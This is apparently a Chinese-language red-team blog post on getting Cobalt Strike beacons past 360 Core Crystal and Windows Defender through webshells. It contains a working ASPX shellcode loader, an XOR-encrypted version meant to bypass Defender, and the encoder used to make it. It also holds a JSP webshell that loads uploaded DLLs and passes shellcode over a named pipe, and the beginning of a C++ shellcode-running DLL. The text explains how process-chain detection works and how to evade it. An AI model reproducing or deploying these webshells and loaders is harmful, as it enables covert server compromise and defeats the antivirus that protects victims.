# 概述

在webshell上线木马，他的进程链是cmd，若双击木马，它的进程链是explorer.exe


# 核晶查杀机制	

当我们在webshell终端执行cmd命令时，不要一上来就`whoami`，这样很容易会被杀软查杀，从而导致杀软的查杀力度越来越严格，毕竟360核晶是带机器学习引擎的

	


最好先执行tasklist命令列出目标系统的所有进程，看看是否有杀毒软件

		


有时候你执行calc.exe命令也会被核晶捕捉到，讲道理calc命令就是一个正常的命令，那么为什么会报毒呢？我觉得这可能是一开始你的一些操作被杀软捕捉到了，例如上述我说的执行whoami命令，一旦杀软的查杀力度上来了，你后面起的任何进程都会被查杀

	


360核晶查杀还涉及到进程链问题，当我们在webshell终端执行notepad.exe命令时，它的cmd进程是起在w3wp.exe进程下

> `w3wp.exe` 是 Windows Web 服务器 (IIS) 中的 Worker Process（工作进程）。在你的 web 应用程序接收到一个请求时，该请求实际上是由一个或多个这样的进程来处理的

	


如果在虚拟机中直接打开cmd执行notepad.exe，可以发现cmd进程是起在explorer进程下，这种方式起的进程是不会被杀软查杀的

	


我将白+黑程序上传至目标主机，随后在目标主机中点击白程序，CS能够成功上线




但是在webshell的cmd终端执行白程序会被查杀，就连你劫持的哪个dll都会被杀软捕捉到

		


# 0x1.aspx马加载shellcode

## 实战演示

以下是aspx文件的代码，主要使用C#编写，导入了`System`和`System.Runtime.InteropServices`命名空间。

然后，它声明了两个P/Invoke方法，这些方法是.NET中用于调用Windows API或者其他非.NET DLL的方法。这两个方法是`VirtualAlloc`和`CreateThread`，它们来自`kernel32.dll`，一个是Windows系统的核心库

接下来是`Page_Load`方法，这是ASP.NET页面生命周期中的一个重要事件。在页面首次加载和后续的请求中，它都会被触发

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
	byte[] esc = new byte[928] {“填写C#的shellcode”};
	IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
	Marshal.Copy(esc, 0, funcAddr, esc.Length);
	IntPtr hThread = IntPtr.Zero;
	uint threadId = 0;
	IntPtr pinfo = IntPtr.Zero;
	hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
	Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>
```


在上述代码中，填写C#的shellcode要注意`w3wp.exe`的架构，w3wp.exe是IIS的工作进程，我们的aspx文件都是通过w3wp.exe来解析的，就如此处的`w3wp.exe`的架构是x64的，那就需要填写x64的shellcode

	


360和火绒都不查杀此文件，但是WindowsDefender会查杀

	

	


网页访问aspx文件时，cobaltstrike上线成功，并且360核晶也没有拦截

	

​				


在beacon执行`getuid`命令也不会被拦截，简单总结下，此类技术之所以能躲避杀软的检测，是因为w3wp.exe进程本身是正常存在的，并且经常在正常操作中被使用，这也导致杀软不敢轻易就关掉此进程


## 免杀处理

WindowsDefender会查杀aspx代码里的shellcode, 只需对shellcode进行异或加密就能绕过, 以下是修改后的aspx文件代码

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<%@ import Namespace="System.Text"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
    // 加密后的shellcode
    byte[] esc = new byte[928] { /* 省略 */ };
    
    // 解密密钥
    byte[] key = System.Text.Encoding.UTF8.GetBytes("henry666");

    // 解密shellcode
    for (int i = 0; i < esc.Length; i++)
    {
        esc[i] ^= key[i % key.Length];
    }
	
    IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
    Marshal.Copy(esc, 0, funcAddr, esc.Length);
    IntPtr hThread = IntPtr.Zero;
    uint threadId = 0;
    IntPtr pinfo = IntPtr.Zero;
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>

```


以下是xor加密shellcode的C#代码

```c#
using System;
using System.Text;

class Program
{
    static void Main()
    {
        // 原始shellcode
        byte[] shellcode = new byte[928] {};
            
        // 加密密钥
        byte[] key = Encoding.UTF8.GetBytes("henry666");

        // 加密shellcode
        for (int i = 0; i < shellcode.Length; i++)
        {
            shellcode[i] ^= key[i % key.Length];
        }

        // 打印加密后的shellcode
        Console.Write("byte[] shellcode = new byte[{0}] {{", shellcode.Length);
        for (int i = 0; i < shellcode.Length; i++)
        {
            Console.Write("0x{0}", shellcode[i].ToString("X2"));
            if (i != shellcode.Length - 1)
            {
                Console.Write(", ");
            }
        }
        Console.Write("};");

        // 等待用户按下回车键
        Console.WriteLine("\n\nPress Enter to exit...");
        Console.ReadLine();
    }
}
```


# 0x2.jsp马研究

## 查杀机制

当我在webshell终端执行`tasklist`和`whoami`命令时，核晶没有出现报毒

	


当执行白+黑时被核晶查杀了，通过ProcessExplorer查看进程链可知，cmd进程是起在javaw.exe下的，`javaw.exe` 主要用于运行解析和执行 JSP 文件的 Servlet 容器，所以说这还是涉及到进程链的检测

			

	

​	

## 冰蝎反弹shell

在核晶开启时，使用冰蝎的反弹shell功能可以直接使目标主机上线，并且后续的执行命令也不会出现报毒，这是因为shellcode注入的进程是`javaw.exe`，这是一个白进程，360也不敢随意终止此进程，毕竟这会影响到整个Web应用的运行状态






## 加载动态链接库

此处所讲的知识点和代码都是从[倾旋师傅的文章](https://paper.seebug.org/1953/)中获取的，讲解得十分全面，尤其是其中的代码，很值得去学习和积累


### JAVA加载动态链接库的三种方式		

**1.Runtime.getRuntime().load()**

`Runtime.getRuntime().load()`是一个在运行时期加载库文件的方法。它是`Runtime`类的一个实例方法，可以加载系统路径或者其他指定路径下的动态链接库。使用这种方式时，需要提供库文件的绝对路径

```jsp
private void RuntimeLoad(String path){
    Runtime.getRuntime().load(path);
}
```


**2.System.load**

`System.load()`是另一种加载动态链接库的方法。与`Runtime.getRuntime().load()`相似，它也需要库文件的绝对路径。这个方法是`System`类的静态方法

```jsp
private void SystemLoad(String path){
    System.load(path);
}
```


**3.Native Load**

这种方式尝试找到并调用一个名为`NativeLibLoader`的类中的`loadLibrary`方法，这是更复杂和灵活的加载方式，允许更细致地控制加载过程

```jsp
private void NativeLoad(String path) throws Exception{
    Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
    if(Native != null){
        java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
        Load.invoke(path);
    }
}
```


### Webshell代码

由于[倾旋师傅](https://paper.seebug.org/1953/#0x06-java)给出的webshell代码无法在Tomcat9.0及以上版本运行，这是因为`sun.misc.BASE64Decoder`在Java8及以前的版本里是可用的，但是之后的版本就要使用`java.util.Base64`替代`sun.misc.BASE64Decoder`，以下是我稍微调整过后的代码

```cpp
<%@ page import="java.io.RandomAccessFile" %>
<%@ page import="java.io.*" %>
<%@ page import="java.util.*" %>
<%!
    private String getFileName(){
        String fileName = "";
        Random random = new Random(System.currentTimeMillis());
        String os = System.getProperty("os.name").toLowerCase();
        if (os.contains("windows")){
            fileName = "C:\\Windows\\Temp\\" + random.nextInt(10000000) + ".dll";
        }else {
            fileName = "/tmp/"+ random.nextInt(10000000) + ".so";
        }
        return fileName;
    }

    public String UploadBase64DLL(InputStream stream) throws Exception {
        Base64.Decoder decoder = Base64.getDecoder();
        File file = new File(getFileName());
        FileOutputStream fos = new FileOutputStream(file);
        fos.write(decoder.decode(new BufferedReader(new InputStreamReader(stream)).readLine().getBytes()));
        fos.close();
        return file.getAbsolutePath();
    }

    private void RuntimeLoad(String path){
        Runtime.getRuntime().load(path);
    }

    private void SystemLoad(String path){
        System.load(path);
    }

    private void NativeLoad(String path) throws Exception{
        Class<?> Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
        if(Native != null){
            java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
            Load.invoke(path);
        }
    }
%>

<%	

    String pipeName = "\\\\.\\pipe\\josPipe";
	
    try {
        String method = request.getHeader("WWW-Authenticate");
        if (method == null) {
            out.println("Start");
            return;
        }
        if (method.equals("load")) {
            ServletInputStream stream = request.getInputStream();
            String file = UploadBase64DLL(stream);
            try {
                RuntimeLoad(file); 
                out.println("Load dll successfully!"); 
            } catch (Exception e) {
                out.println("Failed to load dll: " + e.getMessage()); 
            }
        } else if (method.equals("shellcode")) { // Removed one extra } from here
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x01);
            pipe.write(Base64.getDecoder().decode(new BufferedReader(new InputStreamReader(request.getInputStream())).readLine().getBytes()));
            pipe.close();
        } 
		
		
    } catch (Exception e) {
        System.out.println(e.toString());
    }
%>
```

此Webshell的主要功能就是上传并加载DLL文件和执行shellcode

`RandomAccessFile`类的功能是对文件内容进行读写操作，此处我们用它来实现webshell与命名管道的通信。例如先创建一个`RandomAccessFile` 对象来访问一个名为`pipeName`的命名管道，随后可通过此对象读取管道中接收的数据或向管道写入数据

```
RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
pipe.write(data); // 向管道写入数据
int data = pipe.read(); // 从管道读取数据
pipe.close(); // 关闭管道
```

Webshell通过HTTP请求头中的`WWW-Authenticate`字段的值来接收来自攻击者的指令，随后通过命名管道传递给服务器上的恶意进程，以此实现数据交互


### Dll的编写

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>
#include <iostream>

// 定义命名管道的名称以及其他的一些变量
#define PIPE_NAME L"\\\\.\\pipe\\josPipe"
#define BUFF_SIZE 1024
#define LOAD_SHELLCODE 0X01
DWORD dwThreadId = 0;

// 检查操作状态并向管道发送成功或失败的消息(与webshell交互)
void CheckSuccessAndSendMsg(BOOL bState, HANDLE hPipe) {
    DWORD dwWrittenSize = 0;
    CHAR Success[] = { 0x01 };
    CHAR Failed[] = { 0x00 };
    if (bState) {
        WriteFile(hPipe, Success, 1, &dwWrittenSize, NULL);
    }
    else {
        WriteFile(hPipe, Failed, 1, &dwWrittenSize, NULL);
    }
}

// 执行接收到的shellcode
BOOL ExecuteShellCode(PCHAR code, DWORD size) {
    HANDLE hHep = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);

